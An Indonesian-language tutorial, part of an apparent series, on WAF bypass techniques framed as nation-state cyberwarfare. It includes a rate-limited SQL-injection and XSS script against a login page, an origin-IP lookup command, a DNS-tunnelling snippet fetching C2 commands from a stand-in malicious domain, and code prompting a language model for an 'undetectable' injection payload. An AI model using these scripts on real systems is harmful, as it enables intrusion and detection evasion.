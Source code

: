 # Kamus Besar Bypass WAF - Part 8

## 🌍 Cyberwarfare & Nation-State Level WAF Evasion

Serangan siber tingkat negara (nation-state attacks) sering menggunakan teknik canggih untuk **bypass WAF dan mengeksploitasi infrastruktur target**.  
Bagian ini membahas **strategi serangan tingkat lanjut yang digunakan dalam operasi cyberwarfare**.

---

## 🕵️‍♂️ 1. Teknik Bypass WAF dalam Operasi Spionase Siber

Dalam operasi spionase siber, bypass WAF digunakan untuk **eksfiltrasi data rahasia tanpa deteksi**.  
**Metode utama yang digunakan:**  

1. **Low & Slow Attacks** → Mengirimkan payload dalam jumlah kecil untuk menghindari trigger WAF.  
2. **Multi-Stage Exploits** → Memecah payload menjadi beberapa tahap agar tidak dikenali sebagai serangan tunggal.  
3. **Fileless Attacks** → Mengeksekusi payload langsung dalam memori tanpa menyentuh disk (menghindari logging).  

**Contoh "Low & Slow Attack" di Python:**  
```python
import time
import requests

payloads = ["' OR '1'='1", "UNION SELECT NULL, NULL--", "<script>alert(1)</script>"]
target = "https://target.com/login"

for payload in payloads:
    response = requests.post(target, data={"username": "admin", "password": payload})
    print(f"Sent payload: {payload}")
    time.sleep(10)  # Delay antar-request untuk menghindari deteksi WAF
```

---

## ☁️ 2. Eksploitasi Infrastruktur Cloud & CDN untuk Bypass WAF

Banyak organisasi menggunakan **Cloudflare, AWS, atau Akamai** untuk melindungi infrastruktur mereka.  
Namun, ada metode yang dapat digunakan untuk melewati proteksi ini:

1. **Origin IP Discovery** → Menemukan IP asli server target untuk melewati WAF cloud.  
2. **CDN Cache Poisoning** → Memanipulasi cache server untuk menginjeksikan payload berbahaya.  
3. **HTTP Desync Attacks** → Mengeksploitasi perbedaan parsing antara WAF dan backend server.  

**Contoh Menemukan IP Asli dari Server Cloudflare:**  
```bash
dig +short target.com @1.1.1.1
```

---

## 🕵️‍♂️ 3. Stealth Command & Control (C2) untuk Operasi Jangka Panjang

Dalam operasi **Advanced Persistent Threats (APT)**, penyerang menggunakan **Command & Control (C2) server** untuk berkomunikasi dengan malware tanpa terdeteksi.  
**Teknik utama yang digunakan:**  

- **Domain Fronting** → Menyembunyikan traffic C2 menggunakan domain sah seperti Google atau Cloudflare.  
- **DNS Tunneling** → Menggunakan DNS query sebagai saluran komunikasi.  
- **Covert Channel Exploits** → Menggunakan media sosial atau layanan publik sebagai relay C2.  

**Contoh DNS Tunneling untuk Bypass WAF:**  
```python
import dns.resolver

domain = "malicious-command.com"
response = dns.resolver.resolve(domain, "TXT")

for txt_record in response:
    print(f"Received C2 Command: {txt_record}")
```

---

## 🤖 4. AI-Driven Cyber Attacks & Automated Warfare

Serangan berbasis **AI & Machine Learning** memungkinkan eksploitasi otomatis yang lebih cepat dan lebih sulit dideteksi.  
Teknik yang digunakan:

1. **AI-Powered Zero-Day Exploits** → Menggunakan AI untuk menemukan celah keamanan sebelum diperbaiki.  
2. **Neural Network-Based WAF Bypass** → Model AI belajar dari respon WAF untuk mengadaptasi payload.  
3. **Deepfake Social Engineering** → Menggunakan AI untuk menciptakan serangan berbasis manipulasi sosial.  

**Contoh AI untuk Generate Payload Adaptive:**  
```python
from transformers import pipeline

generator = pipeline("text-generation", model="EleutherAI/gpt-neo-2.7B")
payload = generator("Generate an undetectable SQL Injection payload:", max_length=50)

print(f"Generated AI-Powered Payload: {payload}")
```

---

## 🛡️ Cara Mencegah Cyberwarfare & Nation-State Attacks

1. **Gunakan Threat Intelligence Platform** → Integrasi data ancaman global untuk mengenali pola serangan APT.  
2. **Implementasi AI-Powered Intrusion Detection System (IDS)** → Analisis trafik secara real-time dengan AI.  
3. **Enforce Zero Trust Security Model** → Tidak ada entitas yang dipercaya tanpa verifikasi ketat.  
4. **Penerapan Post-Quantum Cryptography** → Mengamankan komunikasi dari eksploitasi berbasis quantum computing.  

---

## 📌 Kesimpulan  

Di **Part 8**, kita membahas **Cyberwarfare, Stealth C2, dan AI-Driven Cyber Attacks**.  
Selanjutnya, kita akan bahas **"Future of Cybersecurity: AI vs AI Warfare & Autonomous Defense Systems"** di **Part 9** 🚀  

